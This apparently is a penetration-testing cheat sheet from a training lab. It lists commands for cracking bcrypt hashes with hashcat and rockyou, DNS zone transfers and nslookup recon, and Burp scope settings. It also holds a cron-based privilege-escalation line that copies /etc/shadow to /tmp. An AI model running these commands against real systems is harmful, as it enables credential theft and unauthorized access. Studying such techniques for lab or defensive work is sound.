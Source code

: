 # cracking passwords with hashcat 
hashcat -m 3200 jonah.hash /home/nonroot/Wordlists/rockyou.txt -w 4 -D 1 -a 0 --status-timer=10 --status --force

-m (hash-type option this defines the specific hash type to crack: bcrypt)
-w (workload-profile this is the overall resource mode to use on a scale from 1 to 4 with 1 being very slow scan to 4 being highly aggresive rescource heavy scan)
-D (opencl-device-types option to use CPU only, use -D 2 for GPU. or -D 1,2 for both CPU and GPU)
-a ( attack-mode option for doing a straight dictionary bruteforce of a list)

# convert xml to html for reporting 
xsltproc FILE.xml -o NEW_FILE.html

# Editing Crontab with a bash script to escalte priv via SETUID 
echo -e ‘#!/bin/bash\n/bin/cat /etc/shadow > /tmp/shadow’ > /etc/cron.hourly/oddjob


# Command to identify the reachable networks and gateways
sudo ip route show dev tap0

# Conduct a DNS zone fer using domain and IP
dig @172.16.5.10 sportsfoo.com -t AXFR +nocookie

# SSH into machine  
ssh username@ipaddress 

# Burpsuite Hera Lab Advanced Scope Control Example
Protocol: HTTP
Host: 	 ^xss1\.webapp\.site$  (original url is http://xss1.webapp.site/) 
Port:    ^80$
File:    ^/.*

# Obtain useful information from DNS record using nslookup, then use command typing typing each subdomain to get the IP address of each  
nslookup 
server 10.50.96.5 
set q=MX 
foocampus.com

nslookup 
server 10.50.96.5 
set q=NS
foocampus.com
